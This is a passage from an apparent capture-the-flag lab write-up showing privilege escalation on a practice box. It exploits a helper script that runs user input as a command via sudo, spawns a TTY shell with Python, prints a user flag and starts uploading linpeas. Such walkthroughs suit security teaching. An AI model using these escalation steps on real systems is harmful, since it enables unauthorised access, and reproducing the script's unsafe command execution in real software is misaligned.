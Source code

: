 We can run a bash script as user `apaar` and it is located in appar's home directory. Let's see what it does:

~~~bash
www-data@ubuntu:/var/www/html/secret$ cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
~~~

First, it asks for a name and saves it as variable `person` and then, it asks for a message, but as you can see, After getting the `msg` variable, it redirects it to `/dev/null`, so it means if the `msg` is a command, it should run it first and if we run the script as user apaar and set the `msg` to `/bin/bash` it should run bash as user `apaar` which means we get a shell as user apaar. Let's test it:

~~~
www-data@ubuntu:/home/apaar$ sudo -u apaar ./.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: blah
Hello user! I am blah,  Please enter your message: /bin/bash

id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
~~~

It worked!

## User Flag

Let's spawn a TTY shell and read the file `local.txt` which contains the user flag:

~~~
python3 -c "import pty;pty.spawn('/bin/bash')"
apaar@ubuntu:~$ cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
~~~

User Flag: `{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}`

## apaar -> anurodh

Let's escalate to a more privileged user. To make things faster, I uploaded [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to the target machine using a python server and set its permission to be executable and then ran it:
